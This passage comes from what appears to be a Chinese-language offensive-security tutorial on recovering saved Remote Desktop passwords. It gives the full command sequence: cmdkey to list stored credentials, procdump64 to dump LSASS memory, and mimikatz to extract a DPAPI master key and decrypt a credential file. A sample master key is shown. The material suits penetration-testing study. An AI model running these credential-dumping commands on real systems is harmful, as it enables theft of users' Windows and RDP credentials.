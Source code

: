 0x05 mstsc 保存密码 - 解密
====================

5.1
---

可以通过

```
cmdkey /ldir /a %userprofile%\AppData\Local\Microsoft\Credentials\*
```

来查看是否存在凭证

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibYZtI4ytczowQ0pCSsgdibpZP4JFNhWLOxCvu5D9mGTAtPOqxtt0ly5FXXQiawqlno0NhHlpDRvdWA/640?wx_fmt=png)

```
procdump64.exe -accepteula -ma lsass.exe lsass.dmp
```

procdump64 来获取内存文件

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibYZtI4ytczowQ0pCSsgdibpJUkeU4xibE42LsmZia5WtWpiaxjI5sLJjpvdjvlws8AS4fiaAm3wj6F2cg/640?wx_fmt=png)

然后使用 mimikatz 获取 guidMasterKey:

```
{12f037b9-df42-4dcf-b9e0-31b57d26c544}
```

```
mimikatz.exe "dpapi::cred /in:C:\Users\jack\AppData\Local\Microsoft\Credentials\B57C0630F49BB26F284ECFD8DCD9E0A2" "exit" > 1.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibYZtI4ytczowQ0pCSsgdibpyW55Ykjhf1CsfqbXFds4XANSCoccyXvT51mFaXr2ibJaB9p6nwQspQQ/640?wx_fmt=png)

然后加载 dmp 获取对应的 MasterKey:

```
ba3ebb5374ea4623a1fcc006ac4552bbb17301b539e62c066f7f4e8ba2931789a48699e276f569535f12dc7a1f42bbbccd35e51c60f19ee3560ee155d9a7c078
```

```
mimikatz.exe "sekurlsa::minidump lsass.dmp" "sekurlsa::dpapi" "exit" > 2.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibYZtI4ytczowQ0pCSsgdibpV3JNmr0b6r932uZqwIwYx9DSB5ye1P4MckGaTISyXZD07u0FwOlBaQ/640?wx_fmt=png)

然后使用 MasterKey 进行解密

```
mimikatz.exe "dpapi::cred /in:C:\Users\jack\AppData\Local\Microsoft\Credentials\B57C0630F49BB26F284ECFD8DCD9E0A2 /masterkey:ba3ebb5374ea4623a1fcc006ac4552bbb17301b539e62c066f7f4e8ba2931789a48699e276f569535f12dc7a1f42bbbccd35e51c60f19ee3560ee155d9a7c078" "exit" > 3.txt
```

![](https://mmbiz.qpic.cn/mmbiz_png/Uq8QfeuvouibYZtI4ytczowQ0pCSsgdibpmkGmIBn83xv31Z44l0USlicXE4IDUVj3xicBTafBcYvO3D1dMARiaNURw/640?wx_fmt=png)
